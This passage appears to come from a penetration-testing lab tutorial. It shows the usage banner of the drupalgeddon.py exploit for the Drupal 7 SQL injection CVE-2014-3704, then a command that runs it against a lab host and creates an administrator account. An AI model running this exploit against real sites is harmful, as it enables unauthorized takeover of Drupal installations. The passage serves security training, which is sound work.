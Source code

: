 ```shell
                                 Drup4l => 7.0 <= 7.31 Sql-1nj3ct10n
                                              Admin 4cc0unt cr3at0r

			  Discovered by:

			  Stefan  Horst
                         (CVE-2014-3704)

                           Written by:

                         Claudio Viviani

                      http://www.homelab.it

                         [email protected]
                     [email protected]

                 https://www.facebook.com/homelabit
                   https://twitter.com/homelabit
                 https://plus.google.com/+HomelabIt1/
       https://www.youtube.com/channel/UCqqmSdMqf_exicCe_DjlBww

Usage: drupalgeddon.py -t http[s]://TARGET_URL -u USER -p PASS

Options:
  -h, --help            show this help message and exit
  -t TARGET, --target=TARGET
                        Insert URL: http[s]://www.victim.com
  -u USERNAME, --username=USERNAME
                        Insert username
  -p PWD, --pwd=PWD     Insert password

```

Here we see that we need to supply the target URL and a username and password for our new admin account. Let's run the script and see if we get a new admin user.

```shell
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd

<SNIP>

[!] VULNERABLE!

[!] Administrator user created!

[*] Login: hacker
[*] Pass: pwnd
[*] Url: http://drupal-qa.inlanefreight.local/?q=node&destination=node

```

